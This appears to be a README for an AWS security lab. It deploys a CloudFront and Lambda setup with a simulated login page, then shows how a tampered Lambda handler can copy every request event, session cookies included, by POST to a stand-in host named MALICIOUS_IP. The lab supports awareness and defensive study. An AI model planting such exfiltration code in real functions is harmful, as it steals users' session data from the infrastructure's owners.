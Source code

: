 # CloudFront - Data Exfiltration via Lambda Function Modification

## Overview

This setup deploys an AWS CloudFront distribution backed by an S3 bucket. The bucket contains two files: `index.html` and `login.html`. The `login.html` simulates a login page by setting a random cookie named `session-id` for the user. Additionally, a Lambda function checks for the presence of this cookie and redirects users to the login.html if it's missing.

## Prerequisites

- AWS CLI configured with necessary permissions.
- Terraform installed.

## Deploying the Infrastructure

1. **Initialize Terraform**:
    ```bash
    terraform init
    ```

2. **Review Changes**:
    ```bash
    terraform plan
    ```

3. **Deploy Resources**:
    ```bash
    terraform apply
    ```

4. **Update the Lambda Function**:
    - After the initial `terraform apply`, you will receive an output containing the domain URL for the CloudFront distribution.
    - Open the Lambda function code and replace the `CHANGEME` placeholder with the received domain.
    - Save the changes.

5. **Reapply Terraform Changes**:
    ```bash
    terraform apply
    ```

6. **Access CloudFront**: After the second apply, accessing the CloudFront URL will lead you to `index.html`, the lambda will redirect you to `login.html`. The latter sets a random "cookie" to simulate a login page.

## Attacking the Infrastructure

The goal of this exercise is to demonstrate how attackers might harm an AWS infrastructure as detailed in the article:

1. **Modify the Lambda Function**:
    - Import the required modules: `http.client` and `json`.
    - Add the following lines to the handler:
        ```python
        conn = http.client.HTTPConnection("MALICIOUS_IP", 80)
        conn.request("POST", "/", json.dumps(event).encode('utf-8'))
        ```
    - Ensure you replace `MALICIOUS_IP` in the script with the IP of your server where you want to capture cookies.
    - Save the changes.

2. **Update the Lambda Function**:
    - Publish a new version of the modified Lambda function.
    - Update the CloudFront distribution to use this new version of the Lambda function.

From this point on, all user requests routed through CloudFront will also be sent to the specified `MALICIOUS_IP`.

## Understanding the Attack

The modified Lambda function now acts as a data exfiltration point. Every request processed by this function sends a copy of the event data to an external server (`MALICIOUS_IP`).

## Cleanup

To avoid incurring additional charges, ensure you destroy the Terraform-managed resources once done:

```bash
terraform destroy
```

⚠️ **Warning** ⚠️

> The content and techniques described here are meant for educational and awareness purposes only. Always be cautious when testing and use only in safe, controlled environments. Unauthorized use or misuse can lead to legal consequences and potential harm.